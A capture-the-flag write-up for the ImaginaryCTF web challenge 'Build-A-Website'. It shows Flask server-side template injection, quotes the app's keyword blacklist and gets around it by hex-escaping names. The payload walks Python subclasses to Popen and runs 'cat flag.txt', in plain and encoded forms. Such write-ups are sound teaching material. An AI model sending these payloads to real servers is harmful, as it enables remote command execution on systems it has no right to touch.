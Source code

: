 ![ImaginaryCTF](../../banner.png)

# Build-A-Website

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|100|Web|247|

### Description

```
I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.	
```

### Attachments

```
https://imaginaryctf.org/r/3ACF-app.py
http://build-a-website.chal.imaginaryctf.org/
```
First thing we checked was to build a website containing: {{7*7}}

![7](7.png)

As this returned 49 instead of {{7*7}} we knew Server Side Template Injection(SSTI) is possible.

However looking at the blacklist in app.py
```
blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
```
We see a lot of words that we would usually use but can't in this setup. So we figured a way to bypass this by encoding it as Hex.

`__class__` for example, became `\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f` etc.

So now we can run:
```
{{url_for.__class__.__mro__[1].__subclasses__()[360]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```
converted to:
```
{{url_for["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"].__mro__[1]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[360]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

There is our flag:
```
ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}
```